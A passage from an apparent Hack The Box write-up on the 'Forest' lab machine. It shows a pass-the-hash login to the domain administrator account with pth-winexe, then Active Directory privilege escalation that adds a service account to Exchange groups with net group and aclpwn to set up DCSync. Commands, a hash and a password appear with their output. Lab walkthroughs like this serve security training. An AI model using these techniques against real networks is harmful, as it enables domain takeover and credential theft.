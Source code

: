 In the last step, we can use pth-winexe and use it with the "LM:NTLM" hash of administrator like :
```
$ pth-winexe -U htb.local/administrator%aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6  //10.10.10.161 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
htb\administrator

```
And voila.

## Let's try to escalate manually now : 

First with BloodHound  we can verify if we have a path to any priviliged group.
From output  as we can see below, we can escalate to the group "EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL" 

From the windows victim, and to perform DCSync attack, we firstly have to add the user to this group like :   
```
$ net group "EXCHANGE TRUSTED SUBSYSTEM" svc-alfresco /add
The command completed successfully.
```

We can also use an other hight privileged group like :
```
$ net group "EXCHANGE WINDOWS PERMISSIONS" svc-alfresco /add
```
Or use aclpwn from our machine like : 
```
$ aclpwn -f  svc-alfresco@htb.local  -t "EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL"  -tt group  -s 10.10.10.161  -sp s3rvice
[+] Path found!
Path: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user SVC-ALFRESCO to group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Re-binding to LDAP to refresh group memberships of SVC-ALFRESCO@HTB.LOCAL
[+] Re-bind successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20191021-021217.restore

```
